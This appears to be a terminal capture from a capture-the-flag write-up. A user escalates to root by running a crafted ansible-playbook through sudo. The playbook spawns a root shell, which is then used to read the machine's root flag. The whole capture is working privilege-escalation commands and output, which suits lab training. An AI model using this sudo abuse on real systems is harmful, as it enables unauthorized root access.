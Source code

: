 ```bash
luis@seal:~/.ansible/tmp$ TF=$(mktemp)
luis@seal:~/.ansible/tmp$ echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' >$TF
luis@seal:~/.ansible/tmp$ sudo /usr/bin/ansible-playbook $TF
[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'

PLAY [localhost] **************************************************************************************************************

TASK [Gathering Facts] ********************************************************************************************************
ok: [localhost]

TASK [shell] ******************************************************************************************************************
# id && hostname
uid=0(root) gid=0(root) groups=0(root)
seal
# cat /root/root.txt
<redacted>
# exit
changed: [localhost]

PLAY RECAP *********************************************************************************************************************
localhost                  : ok=2    changed=1    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
```
